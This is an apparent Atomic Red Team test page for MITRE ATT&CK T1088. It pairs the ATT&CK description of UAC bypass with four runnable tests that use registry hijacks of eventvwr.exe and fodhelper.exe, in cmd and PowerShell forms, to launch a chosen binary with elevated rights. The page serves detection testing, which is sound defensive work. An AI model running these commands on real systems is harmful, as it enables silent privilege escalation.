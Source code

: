 # T1088 - Bypass User Account Control
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1088)
<blockquote>Windows User Account Control (UAC) allows a program to elevate its privileges to perform a task under administrator-level permissions by prompting the user for confirmation. The impact to the user ranges from denying the operation under high enforcement to allowing the user to perform the action if they are in the local administrators group and click through the prompt or allowing them to enter an administrator password to complete the action. (Citation: TechNet How UAC Works)

If the UAC protection level of a computer is set to anything but the highest level, certain Windows programs are allowed to elevate privileges or execute some elevated COM objects without prompting the user through the UAC notification box. (Citation: TechNet Inside UAC) (Citation: MSDN COM Elevation) An example of this is use of rundll32.exe to load a specifically crafted DLL which loads an auto-elevated COM object and performs a file operation in a protected directory which would typically require elevated access. Malicious software may also be injected into a trusted process to gain elevated privileges without prompting a user. (Citation: Davidson Windows) Adversaries can use these techniques to elevate privileges to administrator if the target process is unprotected.

Many methods have been discovered to bypass UAC. The Github readme page for UACMe contains an extensive list of methods (Citation: Github UACMe) that have been discovered and implemented within UACMe, but may not be a comprehensive list of bypasses. Additional bypass methods are regularly discovered and some used in the wild, such as:

* <code>eventvwr.exe</code> can auto-elevate and execute a specified binary or script. (Citation: enigma0x3 Fileless UAC Bypass) (Citation: Fortinet Fareit)

Another bypass is possible through some Lateral Movement techniques if credentials for an account with administrator privileges are known, since UAC is a single system security mechanism, and the privilege or integrity of a process running on one system will be unknown on lateral systems and default to high integrity. (Citation: SANS UAC Bypass)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bypass UAC using Event Viewer](#atomic-test-1---bypass-uac-using-event-viewer)

- [Atomic Test #2 - Bypass UAC using Event Viewer - PowerShell](#atomic-test-2---bypass-uac-using-event-viewer---powershell)

- [Atomic Test #3 - Bypass UAC using Fodhelper](#atomic-test-3---bypass-uac-using-fodhelper)

- [Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell](#atomic-test-4---bypass-uac-using-fodhelper---powershell)


<br/>

## Atomic Test #1 - Bypass UAC using Event Viewer
Bypasses User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:\Windows\System32\cmd.exe|

#### Run it with `command_prompt`! ```
reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "#{executable_binary}" /f
cmd.exe /c eventvwr.msc
```
<br/>
<br/>

## Atomic Test #2 - Bypass UAC using Event Viewer - PowerShell
PowerShell code to bypass User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:\Windows\System32\cmd.exe|

#### Run it with `command_prompt`! ```
New-Item "HKCU:\software\classes\mscfile\shell\open\command" -Force
Set-ItemProperty "HKCU:\software\classes\mscfile\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\eventvwr.msc"
```
<br/>
<br/>

## Atomic Test #3 - Bypass UAC using Fodhelper
Bypasses User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:\Windows\System32\cmd.exe|

#### Run it with `command_prompt`! ```
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "#{executable_binary}" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute"
fodhelper.exe
```
<br/>
<br/>

## Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell
PowerShell code to bypass User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:\Windows\System32\cmd.exe|

#### Run it with `powershell`! ```
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
```
<br/>

